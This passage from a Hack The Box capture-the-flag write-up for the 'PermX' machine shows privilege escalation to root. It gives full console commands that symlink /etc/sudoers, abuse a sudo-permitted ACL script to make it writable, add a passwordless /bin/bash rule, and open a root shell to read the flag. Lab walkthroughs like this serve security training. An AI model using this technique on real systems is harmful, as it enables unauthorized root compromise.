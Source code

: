 We can successfully read the `/etc/shadow` file. Now there are some possibilities on how we can exploit this and get root access.

1. You could grab the hashes and try to crack them
2. You could give yourself write permission on `/etc/shadow`, generate a new hash and replace `root`'s hash with it.
3. You can also make the `/etc/sudoers` file writable and give yourself the permission to run `/bin/bash` as root.

I choose the third option since it's the quickest and easiest.

```console
mtz@permx:~$ ln -s /etc/sudoers ./sudoers
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/sudoers
mtz@permx:~$ nano ./sudoers 
...
mtz ALL=(ALL) NOPASSWD: /bin/bash
...
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
    (ALL) NOPASSWD: /bin/bash
```

Now let's run `/bin/bash` with `sudo` and grab our final flag.
```console
mtz@permx:~$ sudo /bin/bash
root@permx:/home/mtz# cd
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# cat root.txt 
[REDACTED]
```

## Outro
This room was pretty fun. Even though it was easy and was solved pretty quickly by me, it still felt good to pwn it.

Many thanks to the creator of this machine, [mtzsec](https://app.hackthebox.com/users/1573153).

\- m3gakr4nus
